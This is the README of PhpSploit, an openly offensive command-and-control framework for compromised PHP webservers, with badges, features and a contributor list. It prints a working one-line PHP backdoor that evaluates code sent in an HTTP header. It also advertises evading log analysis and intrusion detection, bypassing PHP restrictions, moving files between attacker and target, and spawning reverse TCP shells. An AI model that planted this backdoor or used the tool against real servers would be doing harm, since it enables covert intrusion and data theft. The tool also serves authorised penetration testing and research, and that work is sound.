 <p align="center">
  <a href="https://github.com/nil0x42/phpsploit" alt="master">
    <img src="data/img/logo.png" alt="Master">
  </a>
</p>

<h3 align="center">
    Full-featured C2 framework which silently persists on <br>webserver via polymorphic PHP oneliner
    <a href="https://twitter.com/intent/tweet?text=PhpSploit%2C%20Full-featured%20C2%20framework%20which%20silently%20persists%20on%20webserver%20via%20polymorphic%20PHP%20oneliner%20-%20by%20@nil0x42&url=https://github.com/nil0x42/phpsploit">
      <img src="https://img.shields.io/twitter/url?label=tweet&logo=twitter&style=social&url=http%3A%2F%2F0" alt="tweet">
    </a>
</h3>
<br>

<p align="center">
  <a href="https://travis-ci.com/nil0x42/phpsploit">
    <img src="https://img.shields.io/travis/com/nil0x42/phpsploit?branch=master&logo=travis" alt="travis build">
  </a>
  <a href="https://requires.io/github/nil0x42/phpsploit/requirements/?branch=master">
    <img src="https://img.shields.io/requires/github/nil0x42/phpsploit?color=blue" alt="requires.io requirements">
  </a>
  <a href="https://app.codacy.com/app/nil0x42/phpsploit?utm_source=github.com&utm_medium=referral&utm_content=nil0x42/phpsploit&utm_campaign=Badge_Grade_Dashboard">
    <img src="https://img.shields.io/codacy/grade/b998fe23c25f40a78c6c35c722bb9fa0?logo=codacy&logoColor=green" alt="codacy code quality">
  </a>
  <a href="https://lgtm.com/projects/g/nil0x42/phpsploit/alerts/">
    <img src="https://img.shields.io/lgtm/alerts/github/nil0x42/phpsploit?logo=lgtm&logoColor=yellow" alt="lgtm alerts">
  </a>
  <a href="https://codecov.io/gh/nil0x42/phpsploit">
    <img src="https://img.shields.io/codecov/c/github/nil0x42/phpsploit?color=orange&label=coverage&logo=codecov" alt="codecov coverage">
  </a>
  <a href="https://codeclimate.com/github/nil0x42/phpsploit/maintainability">
    <img src="https://img.shields.io/codeclimate/maintainability/nil0x42/phpsploit?color=blueviolet&logo=code-climate&logoColor=blueviolet" alt="codeclimate maintainability">
  </a>
</p>

<p align="center">
  <a href="https://github.com/vitalysim/Awesome-Hacking-Resources/blob/master/tools.md">
    <img src="https://awesome.re/mentioned-badge.svg">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=nil0x42" target="_blank">
    <img src="https://img.shields.io/twitter/follow/nil0x42.svg?logo=twitter">
  </a>
</p>

<div align="center">
  <sub>
    Created by
    <a href="https://twitter.com/nil0x42">nil0x42</a> and
    <a href="https://github.com/nil0x42/phpsploit#contributors">contributors</a>
  </sub>
</div>

<br>

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

<p align="center">
  <img src="data/img/demo.png">
</p>


#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/nil0x42/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate privilege-escalation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any option (`help` command)
    -   _Cross-platform_ on both client and server.
    -   CLI supports auto-completion & multi-command
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD-like
-   Mac OS X
-   Windows NT

## Contributors

Thanks goes to these wonderful people ([emoji key](https://github.com/all-contributors/all-contributors#emoji-key)):
<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore-start -->
<!-- markdownlint-disable -->
<table>
  <tr>
    <td align="center"><a href="https://exdemia.com"><img src="https://avatars1.githubusercontent.com/u/3504393?v=4" width="100px;" alt=""/><br /><sub><b>nil0x42</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Code">💻</a> <a href="#infra-nil0x42" title="Infrastructure (Hosting, Build-Tools, etc)">🚇</a> <a href="#plugin-nil0x42" title="Plugin/utility libraries">🔌</a> <a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Tests">⚠️</a></td>
    <td align="center"><a href="https://github.com/shiney-wh"><img src="https://avatars1.githubusercontent.com/u/20907184?v=4" width="100px;" alt=""/><br /><sub><b>shiney-wh</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=shiney-wh" title="Code">💻</a> <a href="#plugin-shiney-wh" title="Plugin/utility libraries">🔌</a></td>
    <td align="center"><a href="http://wapiflapi.github.io"><img src="https://avatars3.githubusercontent.com/u/1619783?v=4" width="100px;" alt=""/><br /><sub><b>Wannes Rombouts</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=wapiflapi" title="Code">💻</a> <a href="#maintenance-wapiflapi" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://yurilz.com"><img src="https://avatars1.githubusercontent.com/u/6031769?v=4" width="100px;" alt=""/><br /><sub><b>Amine Ben Asker</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=yurilaaziz" title="Code">💻</a> <a href="#maintenance-yurilaaziz" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://twitter.com/jnazario"><img src="https://avatars1.githubusercontent.com/u/5619153?v=4" width="100px;" alt=""/><br /><sub><b>jose nazario</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=paralax" title="Documentation">📖</a> <a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Aparalax" title="Bug reports">🐛</a></td>
    <td align="center"><a href="http://wikisecure.net"><img src="https://avatars3.githubusercontent.com/u/156915?v=4" width="100px;" alt=""/><br /><sub><b>Sujit Ghosal</b></sub></a><br /><a href="#blog-sujit" title="Blogposts">📝</a></td>
    <td align="center"><a href="https://github.com/sohelzerdoumi"><img src="https://avatars3.githubusercontent.com/u/3418725?v=4" width="100px;" alt=""/><br /><sub><b>Zerdoumi</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Asohelzerdoumi" title="Bug reports">🐛</a></td>
  </tr>
  <tr>
    <td align="center"><a href="https://github.com/tristandostaler"><img src="https://avatars3.githubusercontent.com/u/5489330?v=4" width="100px;" alt=""/><br /><sub><b>tristandostaler</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Atristandostaler" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://github.com/rohantarai"><img src="https://avatars3.githubusercontent.com/u/16543074?v=4" width="100px;" alt=""/><br /><sub><b>Rohan Tarai</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Arohantarai" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://triop.se"><img src="https://avatars1.githubusercontent.com/u/190150?v=4" width="100px;" alt=""/><br /><sub><b>Jonas Lejon</b></sub></a><br /><a href="#blog-jonaslejon" title="Blogposts">📝</a></td>
  </tr>
</table>

<!-- markdownlint-enable -->
<!-- prettier-ignore-end -->
<!-- ALL-CONTRIBUTORS-LIST:END -->
This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome
